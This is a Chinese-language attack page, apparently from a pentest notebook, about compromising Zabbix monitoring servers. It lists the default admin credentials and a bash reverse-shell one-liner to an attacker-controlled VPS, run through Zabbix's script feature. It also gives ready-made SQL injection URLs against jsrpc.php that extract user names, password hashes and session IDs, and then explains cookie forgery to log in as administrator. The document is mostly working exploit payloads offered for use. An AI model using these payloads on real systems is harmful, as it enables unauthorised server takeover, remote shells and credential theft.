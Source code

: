 ```yaml
---
title: Zabbix
---
```


## 应用简介

Zabbix 是由 Alexei Vladishev 开发的一种网络监视、管理系统，基于 Server-Client 架构。

可用于监视各种网络服务、服务器和网络机器等状态。本着其开源、安装简单等特点被广泛使用

## [弱口令]-后台Getshell

**默认口令**

```http
Admin/zabbix
```

**漏洞利用**

在管理-脚本-创建脚本写入反弹`shell`命令

```bash
bash -i >& /dev/tcp/VPS的IP/6666 0>&1
```

在监测-问题处打开一个主机，然后找到刚刚创建的脚本执行

## SQL注入

```http
2.2.x
3.0.0-3.0.3
```

攻击者无需授权登陆即可登陆zabbix管理系统，进入后台后script等功能直接获取zabbix服务器的操作系统权限

**漏洞利用**

在攻击机访问的zabbix的地址后面加上如下url：

```http
/jsrpc.php?sid=0bcd4ade648214dc&type=9&method=screen.get&tim
estamp=1471403798083&mode=2&screenid=&groupid=&hostid=0&pageFile=hi
story.php&profileIdx=web.item.graph&profileIdx2=2'3297&updateProfil
e=true&screenitemid=&period=3600&stime=20160817050632&resourcetype=
17&itemids%5B23297%5D=23297&action=showlatest&filter=&filter_task=&
mark_color=1
```

输出结果，若包含：`You have an error in your SQL syntax`;表示漏洞存在

- 获取用户名

```http
jsrpc.php?sid=0bcd4ade648214dc&type=9&method=screen.get&timestamp=1471403798083&mode=2&screenid=&groupid=&hostid=0&pageFile=history.php&profileIdx=web.item.graph&profileIdx2=profileldx2=(select%201%20from%20(select%20count(*),concat((select(select%20concat(cast(concat(0x7e,name,0x7e)%20as%20char),0x7e))%20from%20zabbix.users%20LIMIT%200,1),floor(rand(0)*2))x%20from%20information_schema.tables%20group%20by%20x)a)&updateProfile=true&screenitemid=&period=3600&stime=20160817050632&resourcetype=17
```

- 获取密码

```http
jsrpc.php?sid=0bcd4ade648214dc&type=9&method=screen.get&timestamp=1471403798083&mode=2&screenid=&groupid=&hostid=0&pageFile=history.php&profileIdx=web.item.graph&profileIdx2=profileldx2=(select%201%20from%20(select%20count(*),concat((select(select%20concat(cast(concat(0x7e,passwd,0x7e)%20as%20char),0x7e))%20from%20zabbix.users%20LIMIT%200,1),floor(rand(0)*2))x%20from%20information_schema.tables%20group%20by%20x)a)&updateProfile=true&screenitemid=&period=3600&stime=20160817050632&resourcetype=17
```

- 获取sessionid

```http
http://IP/zabbix/jsrpc.php?sid=0bcd4ade648214dc&type=9&method=screen.get&timestamp=1471403798083&mode=2&screenid=&groupid=&hostid=0&pageFile=history.php&profileIdx=web.item.graph&profileIdx2=profileldx2=(select%201%20from%20(select%20count(*),concat((select(select%20concat(cast(concat(0x7e,sessionid,0x7e)%20as%20char),0x7e))%20from%20zabbix.sessions%20LIMIT%200,1),floor(rand(0)*2))x%20from%20information_schema.tables%20group%20by%20x)a)&updateProfile=true&screenitemid=&period=3600&stime=20160817050632&resourcetype=17
```

用户名密码及sessionid值都已得到，可以先对密码md5解密，解密成功可直接进入后台。

解密不成功可以用sessionid值进行Cookie欺骗替换zbx_sessionid即可成功以administrator登陆